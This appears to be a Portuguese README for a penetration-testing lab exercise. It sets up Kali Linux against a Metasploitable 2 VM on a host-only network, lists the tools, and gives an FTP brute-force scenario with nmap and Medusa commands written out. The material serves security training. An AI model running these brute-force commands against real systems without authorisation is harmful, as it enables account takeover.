 # Ataque-de-Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux

##  Arquitetura do Ambiente

### Configuração das Máquinas Virtuais

```
┌─────────────────┐    Host-Only Network    ┌──────────────────────┐
│   Kali Linux    │ ◄────────────────────► │   Metasploitable 2   │
│  (Atacante)     │      192.168.1.0/24    │     (Alvo)           │
│                 │                         │                      │
│ • Medusa        │                         │ • FTP (vsftpd)       │
│ • Hydra         │                         │ • SSH                │
│ • Nmap          │                         │ • SMB/CIFS           │
│ • Wordlists     │                         │ • DVWA               │
└─────────────────┘                         └──────────────────────┘
```

**Especificações:**
- **VM 1**: Kali Linux 2024.3 (4GB RAM, 2 CPUs)
- **VM 2**: Metasploitable 2 (2GB RAM, 1 CPU)
- **Rede**: Host-Only Adapter (VirtualBox)
- **Range IP**: 192.168.1.0/24

##  Ferramentas Utilizadas

| Ferramenta | Versão | Função |
|------------|--------|---------|
| **Medusa** | 2.3 | Força bruta multi-protocolo |
| **Hydra** | 9.5 | Força bruta complementar |
| **Nmap** | 7.94 | Reconhecimento e enumeração |
| **smbclient** | 4.19 | Teste de acesso SMB |
| **John the Ripper** | 1.9.0 | Quebra de hashes |
| **wpscan** | 3.8.25 | Auditoria WordPress |

## Cenários de Teste Implementados

### 1.  Ataque de Força Bruta FTP

**Objetivo**: Explorar o serviço FTP (vsftpd 2.3.4) do Metasploitable 2

**Comandos executados:**
```bash
# Descoberta do serviço FTP
nmap -sV -p 21 192.168.1.100

# Ataque com Medusa
medusa -h 192.168.1.100 -u msfadmin -P wordlist-senhas.txt -M ftp -t 5

# Validação de acesso
ftp 192.168.1.100
```
